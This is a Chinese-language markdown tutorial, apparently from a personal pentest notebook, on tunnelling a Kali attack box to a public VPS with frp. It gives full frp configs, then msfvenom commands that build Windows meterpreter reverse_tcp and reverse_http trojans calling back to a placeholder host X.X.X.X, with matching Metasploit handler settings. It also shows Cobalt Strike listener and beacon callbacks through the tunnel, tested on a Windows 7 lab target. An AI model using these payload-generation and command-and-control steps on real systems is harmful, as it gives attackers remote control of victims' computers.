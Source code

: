 # kali公网渗透测试方法
#frp #内网穿透

**操作前一定要在VPS入站规则中允许响应端口**

## 服务端配置
[GitHub-frp仓库](https://github.com/fatedier/frp)，下载之后将frp分别拷贝到公网和内网主机上，在公网主机（Ubuntu，以下简称S）打开配置文件`nano frps.ini`中编辑设置如下。
```ini
#frps.ini
[common]
bind_port = 7777
dashboard_user = admin
dashboard_pwd = nimda
dashboard_port = 7776
token = nimda@admin
vhost_http_port = 8080
```

保存执行：`./frps -c ./frps.ini`

![](../../attaches/Pasted%20image%2020220922185940.png)
## 客户端配置
内网主机（kali，以下简称C）打开配置文件`nano frpc.ini`中编辑设置如下。
```ini
# frpc.ini
[common]
server_addr = X.X.X.X
server_port = 7777
token = nimda@admin

[web]
type = http
local_ip = 0.0.0.0
local_port = 80
custom_domains = X.X.X.X
remote_port = 8888

[ssh]
type = tcp
local_ip = 0.0.0.0
local_port = 22
custom_domains = X.X.X.X
remote_port = 2222

[reverse_tcp]
type = tcp
local_ip = 0.0.0.0
local_port = 4444
custom_domains = X.X.X.X
remote_port = 4444

[cs]
type = tcp
local_ip = 0.0.0.0
local_port = 1111
custom_domains = X.X.X.X
remote_port = 1111
```

保存执行：`./frpc -c ./frpc.ini`

![](../../attaches/Pasted%20image%2020220922194217.png)
## 测试http服务器
访问http://X.X.X.X:8888，成功看到C上的文件。

![](../../attaches/1663847023860.png)
## 测试ssh
执行`ssh kali@X.X.X.X -p 2222`输入yes和密码后成功弹shell。
![](../../attaches/Pasted%20image%2020220922201121.png)
## 测试反向tcp
C中执行`msfvenom -p windows/meterpreter/reverse_tcp lhost=X.X.X.X lport=4444 -f exe > tcp.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
```
![](../../attaches/Pasted%20image%2020220922202540.png)

靶机使用NAT，kali使用桥接，相当于两者在不同内网中，在靶机（windows7，以下简称B）中执行木马文件，在kali中看到session。
![](../../attaches/Pasted%20image%2020220922203249.png)
## 测试反向http
C中执行`msfvenom -p windows/meterpreter/reverse_http lhost=X.X.X.X lport=8888 -f exe > http.exe`生成木马程序，在msf中开启一个tcp监听。
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 80
```

![](../../attaches/Pasted%20image%2020220922203720.png)

在B上执行木马文件，在kali中看到session。
![](../../attaches/Pasted%20image%2020220922204703.png)
## 测试CS
在S上开启teamserver。

![](../../attaches/Pasted%20image%2020220922205614.png)

在C上连接S，设置监听器。

![](../../attaches/Pasted%20image%2020220923215139.png)

以此监听器生成木马，上传到B中执行，成功上线。

![](../../attaches/Pasted%20image%2020220923215306.png)

尝试执行命令。

![](../../attaches/Pasted%20image%2020220923215414.png)

*监听直接发生在teamserver上和frp关系不大，直接在服务器上搭建teamserver很危险，可以尝试在本地搭建teamserver，然后将teamserver监听的端口映射到服务器上*

![](../../attaches/Pasted%20image%2020220923220358.png)

**HTTP地址填公网ip，HTTP地址（Stager）填内网地址，frp映射端口应该和本地监听端口一致，否则木马无法连接。**

![](../../attaches/Pasted%20image%2020220923221115.png)

成功上线，尝试执行命令。

![](../../attaches/Pasted%20image%2020220923221344.png)

**关于kali和内网中其他主机的进一步通讯请移步[隧道与代理](./隧道与代理)**
